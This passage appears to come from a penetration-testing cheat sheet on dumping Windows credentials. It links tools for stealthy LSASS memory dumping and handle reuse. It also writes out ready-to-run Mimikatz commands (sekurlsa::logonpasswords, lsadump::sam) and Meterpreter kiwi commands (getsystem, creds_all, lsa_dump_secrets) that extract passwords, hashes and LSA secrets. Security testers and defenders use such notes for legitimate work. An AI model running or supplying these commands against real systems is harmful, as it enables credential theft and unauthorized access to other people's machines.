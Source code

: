 
#### Silent Process Exit

* [https://www.deepinstinct.com/2021/02/16/lsass-memory-dumps-are-stealthier-than-ever-before-part-2/](https://www.deepinstinct.com/2021/02/16/lsass-memory-dumps-are-stealthier-than-ever-before-part-2/)
* [https://github.com/deepinstinct/LsassSilentProcessExit](https://github.com/deepinstinct/LsassSilentProcessExit)



### Mimikatz

In case of Windows 10 version 1803-1809 use [Mimikatz v2.1.1](https://github.com/gentilkiwi/mimikatz/files/4167347/mimikatz_trunk.zip), see [Key import error](https://github.com/gentilkiwi/mimikatz/issues/248):

```
Cmd > .\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" "exit"
```


#### kiwi

```
meterpreter > getsystem
meterpreter > load kiwi
meterpreter > creds_msv
meterpreter > creds_all
meterpreter > lsa_dump_secrets
meterpreter > kiwi_cmd '"privilege::debug" "sekurlsa::logonpasswords full" "exit"'
```



### Reusing Open Handles

* [https://skelsec.medium.com/duping-av-with-handles-537ef985eb03](https://skelsec.medium.com/duping-av-with-handles-537ef985eb03)
* [https://github.com/jfmaes/SharpHandler](https://github.com/jfmaes/SharpHandler)



### Remotely

* [https://github.com/G0ldenGunSec/SharpSecDump](https://github.com/G0ldenGunSec/SharpSecDump)




## SAM



### Mimikatz

```
PS > Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "log sam.txt" "lsadump::sam" "exit"'
```
